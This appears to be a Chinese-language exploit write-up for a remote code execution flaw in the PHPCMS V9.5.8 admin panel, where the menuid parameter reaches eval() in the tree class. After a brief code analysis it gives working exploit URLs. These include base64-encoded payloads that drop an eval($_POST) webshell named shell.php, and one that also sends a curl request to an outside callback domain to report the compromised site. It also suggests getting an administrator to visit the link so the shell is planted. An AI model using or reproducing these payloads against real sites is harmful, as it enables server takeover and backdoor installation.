

Phpcms V9.5.8 后台getshell
==========================

一、漏洞简介
------------

二、漏洞影响
------------

Phpcms V9.5.8

三、复现过程
------------

### 漏洞分析

代码位于`/phpcms/modules/content/content.php` 第472-532行

    public function public_categorys() {
        $show_header = '';
        $cfg = getcache('common','commons');
        $ajax_show = intval($cfg['category_ajax']);
        $from = isset($_GET['from']) && in_array($_GET['from'],array('block')) ? $_GET['from'] : 'content';
        $tree = pc_base::load_sys_class('tree');
        if($from=='content' && $_SESSION['roleid'] != 1) { 
            $this->priv_db = pc_base::load_model('category_priv_model');
            $priv_result = $this->priv_db->select(array('action'=>'init','roleid'=>$_SESSION['roleid'],'siteid'=>$this->siteid,'is_admin'=>1));
            $priv_catids = array();
            foreach($priv_result as $_v) {
                $priv_catids[] = $_v['catid'];
            }
            if(empty($priv_catids)) return '';
        }
        $categorys = array();
        if(!empty($this->categorys)) {
            foreach($this->categorys as $r) {
                if($r['siteid']!=$this->siteid ||  ($r['type']==2 && $r['child']==0)) continue;
                if($from=='content' && $_SESSION['roleid'] != 1 && !in_array($r['catid'],$priv_catids)) {
                    $arrchildid = explode(',',$r['arrchildid']);
                    $array_intersect = array_intersect($priv_catids,$arrchildid);
                    if(empty($array_intersect)) continue;
                }
                if($r['type']==1 || $from=='block') {
                    if($r['type']==0) {
                        $r['vs_show'] = "<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=".$r['catid']."&type=show' target='right'>[".L('content_page')."]</a>";
                    } else {
                        $r['vs_show'] ='';
                    }
                    $r['icon_type'] = 'file';
                    $r['add_icon'] = '';
                    $r['type'] = 'add';
                } else {
                    $r['icon_type'] = $r['vs_show'] = '';
                    $r['type'] = 'init';
                    $r['add_icon'] = " ";
                }
                $categorys[$r['catid']] = $r;
            }
        }
        if(!empty($categorys)) {
            $tree->init($categorys);
                switch($from) {
                    case 'block':
                        $strs = "\$add_icon<a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=list' target='right'>\$catname</a> \$vs_show";
                        $strs2 = " <a href='?m=block&c=block_admin&a=public_visualization&menuid=".$_GET['menuid']."&catid=\$catid&type=category' target='right'>\$catname</a>";
                    break;
     
                    default:
                        $strs = "\$add_icon<a href='?m=content&c=content&a=\$type&menuid=".$_GET['menuid']."&catid=\$catid' target='right' onclick='open_list(this)'>\$catname</a>";
                        $strs2 = "\$catname";
                        break;
                }
            $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);
        } else {
            $categorys = L('please_add_category');
        }
        include $this->admin_tpl('category_tree');
        exit;
    }

复制 文本

在当前函数开始下个断点

跟到526行：

    $categorys = $tree->get_treeview(0,'category_tree',$strs,$strs2,$ajax_show);

复制 文本

进入了`get_treeview()`函数，跟入进去，

函数位于 `/phpcms/libs/classes/tree.class.php` 第206-239行。

    * @param $myid 表示获得这个ID下的所有子级
    * @param $effected_id 需要生成treeview目录数的id
    * @param $str 末级样式
    * @param $str2 目录级别样式
    * @param $showlevel 直接显示层级数，其余为异步显示，0为全部限制
    * @param $style 目录样式 默认 filetree 可增加其他样式如'filetree treeview-famfamfam'
    * @param $currentlevel 计算当前层级，递归使用 适用改函数时不需要用该参数
    * @param $recursion 递归使用 外部调用时为FALSE
    function get_treeview($myid,$effected_id='example',$str="\$name", $str2="\$name" ,$showlevel = 0 ,$style='filetree ' , $currentlevel = 1,$recursion=FALSE) {
         $child = $this->get_child($myid);
         if(!defined('EFFECTED_INIT')){
            $effected = ' id="'.$effected_id.'"';
            define('EFFECTED_INIT', 1);
         } else {
            $effected = '';
         }
         $placeholder =  '<ul><li></li></ul>';
         if(!$recursion) $this->str .='<ul'.$effected.'  class="'.$style.'">';
         foreach($child as $id=>$a) {
     
             @extract($a);
             if($showlevel > 0 && $showlevel == $currentlevel && $this->get_child($id)) $folder = 'hasChildren'; //如设置显示层级模式@2011.07.01
             $floder_status = isset($folder) ? ' class="'.$folder.'"' : '';     
             $this->str .= $recursion ? '<ul><li'.$floder_status.' id=\''.$id.'\'>' : '<li'.$floder_status.' id=\''.$id.'\'>';
             $recursion = FALSE;
             if($this->get_child($id)){
                 eval("\$nstr = \"$str2\";");
                 $this->str .= $nstr;
                 if($showlevel == 0 || ($showlevel > 0 && $showlevel > $currentlevel)) {
                     $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);
                 } elseif($showlevel > 0 && $showlevel == $currentlevel) {
                     $this->str .= $placeholder;
                 }
             } else {
                 eval("\$nstr = \"$str\";");
                 $this->str .= $nstr;
             }
             $this->str .=$recursion ? '</li></ul>': '</li>';
         }
         if(!$recursion)  $this->str .='</ul>';
         return $this->str;
     }

复制 文本

这里有个判断：

    if($this->get_child($id))

当第一次执行为ture的时候，还是会再次执行`get_treeview`的内容

    $this->get_treeview($id, $effected_id, $str, $str2, $showlevel, $style, $currentlevel+1, TRUE);

第二次执行的时候`$myid`由0变成了1，

这时候的`$newarr`为空，

if就不执行，转而执行elseif和else，而`$str`包含着`menuid`的值，也就是`${@phpinfo()}`
，这时候`eval()` 就执行了php代码。

### 漏洞复现

**常规poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@phpinfo()}`

**进阶版poc：**`https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=${@(assert(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMV0pOycpOw)))}`

> 密码1，这要管理员权限才能代码执行，修改下payload，管理员一访问就在当前域名的首页路径下生成shell。

`print_r(base64_encode("fputs(fopen('shell.php','w'),'<?php eval(\$_POST[2]);');system('curl '.\$_SERVER[\"SERVER_NAME\"].'www.0-sec.org');"));`

> 还有另一种payload，会回显的提醒。自动curl请求你的域名，然后回显网站url
>
> 先输出base64的地址，然后在替换下面的字符串> `https://www.0-sec.org/index.php?m=content&c=content&a=public_categorys&menuid=(${@(assert(eval(base64_decode(ZnB1dHMoZm9wZW4oJ3NoZWxsLnBocCcsJ3cnKSwnPD9waHAgZXZhbCgkX1BPU1RbMl0pOycpO3N5c3RlbSgnY3VybCAnLiRfU0VSVkVSWyJTRVJWRVJfTkFNRSJdLic0MzIxLm5yY3VmOS5jZXllLmlvJyk7))))})`

这个字符串有几个点提醒下自己，` assert()`函数执行执行一句php代码，所以在assert前面加个eval，执行多条语句。

参考链接
--------

> https://www.mrwu.red/web/2723.html
